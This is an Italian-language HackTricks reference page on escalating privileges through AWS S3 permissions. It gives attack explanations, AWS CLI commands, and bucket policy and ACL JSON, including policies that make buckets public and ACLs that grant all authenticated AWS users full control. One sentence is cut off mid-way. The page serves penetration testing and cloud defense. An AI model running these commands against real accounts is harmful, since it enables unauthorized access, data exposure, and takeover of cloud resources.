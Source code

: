 # AWS - S3 Privesc

{{#include ../../../banners/hacktricks-training.md}}

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

Un attaccante con questi permessi su bucket interessanti potrebbe essere in grado di dirottare risorse ed elevare i privilegi.

Ad esempio, un attaccante con questi **permessi su un bucket cloudformation** chiamato "cf-templates-nohnwfax6a6i-us-east-1" sarà in grado di dirottare il deployment. L'accesso può essere concesso con la seguente policy:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": [
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"
],
"Resource": [
"arn:aws:s3:::cf-templates-*/*",
"arn:aws:s3:::cf-templates-*"
]
},
{
"Effect": "Allow",
"Action": "s3:ListAllMyBuckets",
"Resource": "*"
}
]
}
```
E l'hijack è possibile perché c'è un **breve intervallo di tempo dal momento in cui il template viene caricato** nel bucket al momento in cui il **template viene distribuito**. Un attaccante potrebbe semplicemente creare una **lambda function** nel suo account che si **attiva quando viene inviata una notifica del bucket**, e **hijack** il **contenuto** di quel **bucket**.

![](<../../../images/image (174).png>)

Il modulo Pacu [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn__resource_injection) può essere utilizzato per automatizzare questo attacco.\
Per ulteriori informazioni controlla la ricerca originale: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

Queste sono le autorizzazioni per **ottenere e caricare oggetti su S3**. Diversi servizi all'interno di AWS (e al di fuori di esso) utilizzano lo storage S3 per memorizzare **file di configurazione**.\
Un attaccante con **accesso in lettura** a questi file potrebbe trovare **informazioni sensibili** in essi.\
Un attaccante con **accesso in scrittura** a questi file potrebbe **modificare i dati per abusare di qualche servizio e cercare di elevare i privilegi**.\
Ecco alcuni esempi:

- Se un'istanza EC2 memorizza i **dati utente in un bucket S3**, un attaccante potrebbe modificarli per **eseguire codice arbitrario all'interno dell'istanza EC2**.

### `s3:PutObject`, `s3:GetObject` (opzionale) su file di stato terraform

È molto comune che i file di stato [terraform](https://cloud.hacktricks.wiki/en/pentesting-ci-cd/terraform-security.html) vengano salvati nello storage blob dei fornitori di cloud, ad esempio AWS S3. Il suffisso del file per un file di stato è `.tfstate`, e i nomi dei bucket spesso rivelano che contengono file di stato terraform. Di solito, ogni account AWS ha un bucket di questo tipo per memorizzare i file di stato che mostrano lo stato dell'account. Inoltre, di solito, negli account del mondo reale quasi sempre tutti gli sviluppatori hanno `s3:*` e a volte anche gli utenti aziendali hanno `s3:Put*`.

Quindi, se hai le autorizzazioni elencate su questi file, c'è un vettore di attacco che ti consente di ottenere RCE nella pipeline con i privilegi di `terraform` - per la maggior parte delle volte `AdministratorAccess`, rendendoti l'amministratore dell'account cloud. Inoltre, puoi utilizzare quel vettore per effettuare un attacco di denial of service facendo sì che `terraform` elimini risorse legittime.

Segui la descrizione nella sezione *Abusing Terraform State Files* della pagina *Terraform Security* per codice di exploit direttamente utilizzabile:

{{#ref}}
pentesting-ci-cd/terraform-security.md#abusing-terraform-state-files
{{#endref}}

### `s3:PutBucketPolicy`

Un attaccante, che deve essere **dallo stesso account**, altrimenti si attiverà l'errore `The specified method is not allowed`, con questo permesso sarà in grado di concedersi più autorizzazioni sui bucket, permettendogli di leggere, scrivere, modificare, eliminare ed esporre i bucket.
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
"Id": "Policy1568185116930",
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:root"
},
"Action":"s3:ListBucket",
"Resource":"arn:aws:s3:::somebucketname"
},
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:user/username"
},
"Action":"s3:*",
"Resource":"arn:aws:s3:::somebucketname/*"
}
]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

Un attaccante potrebbe abusare di questi permessi per **concedergli più accesso** su specifici bucket.\
Nota che l'attaccante non deve essere dello stesso account. Inoltre, l'accesso in scrittura
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

Un attaccante potrebbe abusare di questi permessi per concedersi maggiore accesso su oggetti specifici all'interno dei bucket.
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

Un attaccante con questi privilegi dovrebbe essere in grado di impostare un Acl su una specifica versione dell'oggetto.
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
{{#include ../../../banners/hacktricks-training.md}}
